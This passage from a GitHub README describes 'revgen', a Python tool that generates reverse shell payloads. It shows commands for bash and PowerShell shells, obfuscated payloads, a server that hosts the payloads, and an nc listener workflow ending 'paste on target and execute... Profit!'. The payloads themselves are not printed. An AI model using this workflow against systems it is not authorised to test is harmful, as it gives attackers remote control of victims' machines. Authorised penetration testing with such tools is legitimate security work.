 ### Manual Setup
```bash
git clone https://github.com/karthikm/revgen.git
cd revgen
python revgen.py --help
```

### Requirements
- **Python 3.6+** (that's it! 🎉)
- No external dependencies for core functionality
- Optional: `qrcode`, `pyperclip` for extra features

---

## 📚 Usage Examples

### Basic Usage
```bash
# Generate a bash reverse shell
revgen --ip 192.168.1.100 --port 4444 --lang bash

# List all available shell types
revgen --list

# Generate all payloads with fancy output
revgen --ip 10.0.0.5 --port 9001 --all --fancy
```

### Advanced Features
```bash
# Obfuscated PowerShell payload
revgen --ip 192.168.1.100 --port 4444 --lang powershell --obfuscate

# Auto-detect IP and copy to clipboard
revgen --auto-ip --port 4444 --lang python --copy

# Start web server with all payloads
revgen --ip 192.168.1.100 --port 4444 --all --server --server-port 8080

# Check if listener is running
revgen --ip 192.168.1.100 --port 4444 --check-listener

# Get listener command suggestions
revgen --port 4444 --suggest-listener
```

### Workflow Integration
```bash
# Step 1: Start listener
nc -lvnp 4444

# Step 2: Generate and copy payload
revgen --auto-ip --port 4444 --lang bash --copy

# Step 3: Paste on target and execute
# Step 4: Profit! 💰
```

---